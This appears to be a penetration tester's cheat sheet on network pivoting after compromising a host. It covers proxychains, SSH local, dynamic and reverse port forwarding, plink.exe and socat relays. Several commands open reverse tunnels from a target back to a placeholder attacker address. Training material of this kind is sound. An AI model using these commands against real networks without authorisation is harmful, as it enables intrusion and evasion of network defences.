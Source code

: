 # Pivoting

## There are 2 types of pivoting

1. Port Forwarding (only one port)
2. Tunnelling and Proxying (all ports)

## Proxychains

Works by prepending the command `proxychains` before other commands.

Proxychains configuration file: `/etc/proxychains.conf` (but proxychains will look into working direcotry first)

```bash
cp /etc/proxychains.conf .
```

## SSH Tunnelling / Port Forwarding

### Forward (local) Connections

Created from our attacking machine, when we have SSH access to the target.

Local port forwarding:
```bash
ssh -L LOCAL_LPORT:TARGET_RHOST:TARGET_RPORT USER@TARGET_RHOST -fN
```

Dynamic proxy:
```bash
ssh -D LOCAL_LPORT USER@TARGET_RHOST -fN
```

## Reverse Connections

When we have shell, but not a SSH access.

First we need to generate ssh key:
```bash
ssh-keygen
```

Add this line into `authorized_keys` following your generated key:
```bash
command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty
```

Check is the SSH server is running on your machine:
```bash
sudo systemctl status ssh
sudo systemctl start ssh
```

Then connect back with reverse port forward:
```
ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN
```

Or create reverse proxy:
```bash
ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN
```

Closing SSH connections:
```bash
ps aux | grep ssh
sudo kill PID
```

## plink.exe

[https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)

```
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
```

Note that any keys generated by `ssh-keygen` will not work properly here. You will need to convert them using the `puttygen` tool, which can be installed on Kali using `sudo apt install putty-tools`. After downloading the tool, conversion can be done with: `puttygen KEYFILE -o OUTPUT_KEY.ppk`
Substituting in a valid file for the keyfile, and adding in the output file.

## socat

[linux](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)
[windows](https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/socat-1.7.3.2-1-x86_64.zip/download)

```
./socat tcp-l:8000 tcp:ATTACKING_IP:443 &
./socat tcp-l:<COMPROMISED_LPORT>,fork,reuseaddr tcp:<TARGET_RHOST>:<TARGET_RPORT> &
```

